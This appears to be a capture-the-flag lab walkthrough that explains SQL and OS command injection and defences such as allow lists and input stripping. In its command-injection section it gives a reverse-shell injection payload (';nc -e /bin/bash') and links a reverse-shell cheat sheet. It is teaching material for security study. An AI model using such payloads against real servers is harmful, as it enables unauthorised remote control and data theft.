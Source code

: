 1. Practise connecting to our network.

`No answer needed`

## [Task 3] Daily Prizes

`No answer needed`

## [Task 4] [Day 1] Injection

Injection flaws are very common in applications today. These flaws occur because user controlled input is interpreted as actual commands or parameters by the application. Injection attacks depend on what technologies are being used and how exactly the input is interpreted by these technologies. Some common examples include:

- SQL Injection: This occurs when user controlled input is passed to SQL queries. As a result, an attacker can pass in SQL queries to manipulate the outcome of such queries.
- Command Injection: This occurs when user input is passed to system commands. As a result, an attacker is able to execute arbitrary system commands on application servers.

If an attacker is able to successfully pass input that is interpreted correctly, they would be able to do the following:

- Access, Modify and Delete information in a database when this input is passed into database queries. This would mean that an attacker can steal sensitive information such as personal details and credentials.
- Execute Arbitrary system commands on a server that would allow an attacker to gain access to users’ systems. This would enable them to steal sensitive data and carry out more attacks against infrastructure linked to the server on which the command is executed.

The main defence for preventing injection attacks is ensuring that user controlled input is not interpreted as queries or commands. There are different ways of doing this:

- Using an allow list: when input is sent to the server, this input is compared to a list of safe input or characters. If the input is marked as safe, then it is processed. Otherwise, it is rejected and the application throws an error.
- Stripping input: If the input contains dangerous characters, these characters are removed before they are processed.

- Dangerous characters or input is classified as any input that can change how the underlying data is processed. Instead of manually constructing allow lists or even just stripping input, there are various libraries that perform these actions for you.

1. I've understood Injection attacks.

`No answer needed`

## [Task 5] [Day 1] OS Command Injection

Command Injection occurs when server-side code (like PHP) in a web application makes a system call on the hosting machine. It is a web vulnerability that allows an attacker to take advantage of that made system call to execute operating system commands on the server. Sometimes this won't always end in something malicious, like a `whoami` or just reading of files. That isn't too bad. But the thing about command injection is it opens up many options for the attacker. The worst thing they could do would be to spawn a reverse shell to become the user that the web server is running as. A simple `;nc -e /bin/bash` is all that's needed and they own your server. **some variants of netcat don't support the -e option.** You can use a list of [these](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) reverse shells as an alternative.
